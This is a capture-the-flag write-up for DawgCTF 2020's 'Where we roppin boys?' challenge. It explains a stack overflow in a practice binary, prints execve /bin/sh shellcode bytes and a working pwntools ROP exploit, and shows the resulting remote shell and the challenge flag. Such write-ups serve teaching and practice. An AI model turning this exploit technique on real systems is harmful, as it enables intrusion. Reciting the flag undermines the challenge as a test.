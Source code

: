# DawgCTF 2020

## Where we roppin boys?

> 350
>
> Forknife is still a thing right?
>
> `nc ctf.umbccd.io 4100`
> 
>Author: trashcanna
>
> [rop](rop)

Tags: _pwn_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra

There are three primary functions of interest: `welcome`, `tryme`, and `win`.

Main starts with `welcome`:

![](welcome.png)

Well, there's an invitation: `shellcode`. `shellcode` is a pointer to a region of memory allocated by `mmap` that is `0x1c` (28) bytes in length and setup for R/W access only (the `3` is `PROT_READ|PROT_WRITE`, IOW `1|2`).  The rest of the `mmap` parameters are less interesting.

![](tryme.png)

There's a buffer overflow vulnerability at line 9.  `fgets` will read 24 (`0x19 - 1`) characters filling up `local_10`, then the pushed `ebx` (standard for x86 32-bit), then the saved base pointer, then finally the return address, with 4 bytes to spare for a 2nd return address, IOW ROP (the binary is called `rop` after all).

![](win.png)

`win` starts off by setting the memory `shellcode` points to, to allow execution (`PROT_EXEC` (4)), then executes it.  Now shellcode is an option (only in this region of memory).

Clearly we want to call `win` with some shellcode.

_But wait!  There's more._

There are 7 other, nearly identical functions that look similar to:

![](tilted_towers.png)

This function sets `iVar4` to the address (`0x8049385`) of the instruction after the call to `__x86.get_pc_thunk.ax()`:

```
08049380 e8 b0 03 00 00       CALL       __x86.get_pc_thunk.ax
08049385 05 7b 2c 00 00       ADD        EAX,0x2c7b
```

`iVar4` (`0x8049385`) + `0x2cb3` is then compared with `0x17` (23), and if greater-than, then the function just returns.

Checking `0x8049385` + `0x2cb3` or `0x804c038` with Ghidra reveals a 4-byte global labeled as `len`:

```
                     len
0804c038                 undefined4 ??
```

If `len` is not greater-than `0x17` (23), then `shellcode[len++] = 0x31`, `shellcode[len++] = 0xc0`, and so on.

There are a total of 7 of these functions that populate the memory pointed to by `shellcode`:

```
dusty_depot:   0x0b 0xcd 0x80 0x31
greasy_grove:  0x6e 0x89 0xe3 0x89
junk_junction: 0x2f 0x2f 0x73 0x68
lonely_lodge:  0xc1 0x89 0xc2 0xb0
loot_lake:     0xc0 0x40 0xcd 0x80
tilted_towers: 0x31 0xc0 0x50 0x68
snobby_shores: 0x68 0x2f 0x62 0x69
```

Calling any of these will just `shellcode[len++] = byte` for each of the four hardcode bytes in the function.

These bytes are shellcode, but what is not obvious is the order in which each function needs to be called to generate useable shellcode, and which ones are required, and if some are called more than once.

> After the 6th call to one of these functions `len` will be 24.

I'm not a shellcode expert to I looked some up and found this: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

This is not an exact match with the options presented, but good enough to muddle through.  You can do this yourself as well.  Based on my obversations I went with the following order:

```
'tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot'
```

`loot_lake` was not required.

`tryme` above only has room for 2, so repeated calls to `tryme` will be required.
 

### Exploit

```
from pwn import *

binary = ELF('rop')

p = process('./rop')
#p = remote('ctf.umbccd.io', 4100)
p.recvuntil('boys?\n')

rops = ['tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot','win']

for i in rops:
	payload  = 8 * b'A'
	payload += p32(binary.symbols['_GLOBAL_OFFSET_TABLE_'])
	payload += 4 * b'B'
	payload += p32(binary.symbols[i])
	payload += p32(binary.symbols['tryme'])
	p.send(payload)

print(p.interactive())
```

When the binary starts you'll end up at the `fgets` in `tryme` waiting for input.

For each function the payload is setup to:

* send 8 `A`s (`local_10`)
* then 4 bytes for the value that will be copied back into `ebx` before the function `leave`s and `ret`urns (this is required for ASLR/PIE enabled binaries, however, for this exploit any value will do, but it's good to be in the habit of setting `ebx` to the address of the GOT before end of function (also required is the base process address))
* then 4 bytes to overwrite the saved based pointer
* then the function (`rops`) to call overwriting the return address
* then the function (`tryme`) to call overwriting the previous function return address.

It is critical to use `p.send()` vs. `p.sendline()` since `fgets` is setup to only read 24 characters.  `p.sendline()` will send a 25th char (`\n`), that will be picked up on the next call to `tryme` and will spoil your attack.


#### Output

After getting a remote shell, get the flag (while you're there, poke around a bit as well :-):

```
root@bf0bd4081cb8:/pwd/datajerk/dawgctf2020/roppin-boys# ./exploit.py
[*] '/pwd/datajerk/dawgctf2020/roppin-boys/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challuser) gid=1000(challuser) groups=1000(challuser)
$ ls
flag.txt  rop
$ ls -l
total 20
-r--r----- 1 root challuser    22 Mar 26 14:34 flag.txt
-rwxr-xr-x 1 root challuser 15868 Mar 26 14:34 rop
$ cat flag.txt
DawgCTF{f0rtni9ht_xD}
```

#### Flag

```
DawgCTF{f0rtni9ht_xD}
```
